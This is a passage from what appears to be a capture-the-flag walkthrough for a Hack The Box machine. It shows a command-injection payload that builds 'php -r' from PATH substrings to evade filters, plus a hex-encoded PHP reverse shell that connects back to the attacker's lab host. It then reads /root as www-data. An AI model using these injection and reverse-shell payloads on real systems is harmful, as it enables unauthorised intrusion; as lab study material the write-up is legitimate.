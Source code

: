   and now the payload looks life this: `<MAC>&&<variables>`
	
	  aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS
	  
  here `$IFS` is a default shell delimiter character which is a space.

__Third__, reverse shell code `'php -r \'$sock=fsockopen("tun0",4141);exec("/bin/sh -i <&3 >&3 2>&3");\''` in hex coded form, inside the php function - `’EXEC(HEX2BIN(“<shellcode>”));’&&`

* I use python to encode payload into hex - 

	  ❯ python2
	  Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
	  [GCC 9.3.0] on linux2
	  Type "help", "copyright", "credits" or "license" for more information.
	  >>> p = 'php -r \'$sock=fsockopen("tun0",4141);exec("/bin/sh -i <&3 >&3 2>&3");\''
	  >>> p.encode("hex").upper()
	  '706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3437222C34313431293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27'

__Final payload :__ `aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("<shellcode>"));'&&`

__My Payload :__ `aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3339222C34313431293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27"));'&&`

__Notes:__ Both IPs from squid-proxy `172.31.11.3` or with ssh tunnel on `127.0.0.1:8080` give a reverse shell as `www-data`

# Root Privesc

* user `www-data` is able to read `/root` dir

	  $ id
	  uid=33(www-data) gid=33(www-data) groups=33(www-data)
	  $ cd /root
	  $ pwd
	  /root
	  $ ls -la
	  -rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
	  -rw-r--r-- 1 root root    485 Apr  6  2020 pihole_config.sh

* inside `pihole_config.sh` file 

	  $ cat pihole_config.sh
	  #!/bin/bash

	  # Add domains to whitelist
	  /usr/local/bin/pihole -w unbalanced.htb
	  /usr/local/bin/pihole -w rebalanced.htb

	  # Set temperature unit to Celsius
	  /usr/local/bin/pihole -a -c
  